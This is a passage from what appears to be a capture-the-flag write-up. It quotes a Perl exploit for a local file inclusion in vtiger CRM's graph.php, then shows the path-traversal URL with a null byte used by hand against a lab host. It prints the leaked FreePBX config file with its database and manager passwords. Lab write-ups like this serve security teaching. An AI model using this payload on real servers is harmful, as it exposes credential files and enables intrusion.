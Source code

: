 ```
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {
 
print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";
 
}
else { 
print "\n[-] not successful\n";
}
```
Primarily, we are interested in `#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`.

From our earlier Dirbuster search, we've already seen a directory `/vtigercrm`.

Going to our web browser, we go to `(https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action)`, but somehow got redirected to `(https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%2500&module=Accounts&action)`, with the error message: `Sorry! Attempt to access restricted file.` displayed. 

We manually change the URL again from 2500 back to 00, and this time, get a valid HTML page. However, it's just a chunk of text and we instead we view the page source to see a formated version.
```
# This file is part of FreePBX.
#
#    FreePBX is free software: you can redistribute it and/or modify
#    ...
#    along with FreePBX.  If not, see <http://www.gnu.org/licenses/>.
#
# This file contains settings for components of the Asterisk Management Portal
# Spaces are not allowed!
# Run /usr/src/AMP/apply_conf.sh after making changes to this file

# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

# AMPBIN: Location of the FreePBX command line scripts
```